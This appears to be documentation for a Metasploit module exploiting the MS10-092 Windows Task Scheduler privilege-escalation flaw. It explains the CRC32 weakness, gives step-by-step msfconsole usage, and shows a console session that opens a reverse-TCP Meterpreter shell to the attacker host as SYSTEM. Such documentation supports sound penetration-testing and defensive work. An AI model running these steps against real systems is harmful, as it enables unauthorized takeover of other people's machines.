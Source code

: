 ## Vulnerable Application

This module exploits the Task Scheduler 2.0 XML 0day exploited by Stuxnet.
When processing task files, the Windows Task Scheduler only uses a CRC32
checksum to validate that the file has not been tampered with. Also, In a default
configuration, normal users can read and write the task files that they have
created. By modifying the task file and creating a CRC32 collision, an attacker
can execute arbitrary commands with SYSTEM privileges.

## Verification Steps

1. Start msfconsole
2. Get a Meterpreter session
3. Do: `use modules/exploits/windows/local/ms10_092_schelevator`
4. Do: `set SESSION <session id>`
5. Do: `run`

## Options

### TASKNAME

A name for the created task (default is random)

## Scenarios

### Windows Server 2008 SP1 (x64)

```
msf > use exploit/windows/local/ms10_092_schelevator
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set session 1
session => 1
msf exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 192.168.200.130:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Preparing payload at C:\Users\user\AppData\Local\Temp\QMGmEeEmFFq.exe
[*] Creating task: qThxbR37
[*] Reading the task file contents from C:\Windows\system32\tasks\qThxbR37...
[*] Original CRC32: 0xec6cfb1d
[*] Final CRC32: 0xec6cfb1d
[*] Writing our modified content back...
[*] Validating task: qThxbR37
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "qThxbR37" have been changed.
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "qThxbR37" have been changed.
[*] Executing the task...
[*] Sending stage (200774 bytes) to 192.168.200.218
[*] Meterpreter session 2 opened (192.168.200.130:4444 -> 192.168.200.218:52347) at 2022-08-19 00:53:17 -0400
[*] Deleting task pcT2p46d0...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-17B09RRRJTG
OS              : Windows 2008 (6.0 Build 6001, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : CORP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter >
```
